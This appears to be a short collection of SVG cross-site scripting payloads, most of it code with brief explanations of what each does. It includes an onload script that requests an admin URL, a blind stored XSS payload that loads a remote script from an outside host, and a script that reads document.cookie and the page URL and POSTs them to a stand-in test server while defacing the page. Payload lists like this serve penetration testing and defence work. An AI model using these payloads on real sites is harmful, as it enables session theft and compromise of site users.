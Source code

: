 ```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" >
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
```
- When the file is displayed in a browser that supports JavaScript, a pop-up box appears showing the domain name of the website.

---

```html
<svg onload="
    var req = new XMLHttpRequest();     <!-- Send XMLHttpRequest request -->
    req.open('GET', 'https://example.com/admin', false);     <!-- Open this URL -->
    req.setRequestHeader('Upgrade-Insecure-Requests', '1');     <!-- Set Upgrade-Insecure-Requests header -->
    req.setRequestHeader('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36');     <!-- Set a random User-Agent header -->
    req.send(null);     <!-- Send the request to https://example.com/admin -->
    var headers = req.response.toLowerCase();    <!-- Displaying the response and converting it to lowercase -->
    console.log(headers);     <!-- Print the results -->
" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" id="Layer_1" x="0px" y="0px" viewBox="0 0 100 100" enable-background="new 0 0 100 100" xml:space="preserve" height="100px" width="100px">
    <g>
        <path d="M28.1,36.6c4.6,1.9,12.2,1.6,20.9,1.1c8.9-0.4,19-0.9,28.9,0.9..."/>
        <path d="M70.3,9.8C57.5,3.4,42.8,3.6,30.5,9.5c-3,6-8.4,19.6-5.3,24.9..."/>
    </g>
</svg>
```
- If the URL the request is directed to contains sensitive data, it could result in the disclosure of critical information.

---

```html
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 96 105">
<html>
<head>
<title>PoC</title>
</head>
<body>
<script src="https://js.rip/YOUR-CHANNEL"></script>
</body>
</html>
</svg>
```
- Blind stored XSS.

---

```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <script>
    document.addEventListener('DOMContentLoaded', () => {
      alert('Advanced XSS Test Executed!');
      console.log('Cookies:', document.cookie);
      fetch('https://your-test-server.com/log', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ cookies: document.cookie, url: window.location.href })
      });
      document.body.innerHTML = '<h1 style="color: red;">XSS Test Successful!</h1>';
    });
  </script>
</svg>
```
- It is used to send a POST request to the URL https://your-test-server.com/log.
		The following data is sent to the server:
- Cookies: Accessed using document.cookie.
- Current URL: Obtained using window.location.href.
- The entire page content is replaced with a large heading (H1) containing the text "XSS Test Successful!" in red color.
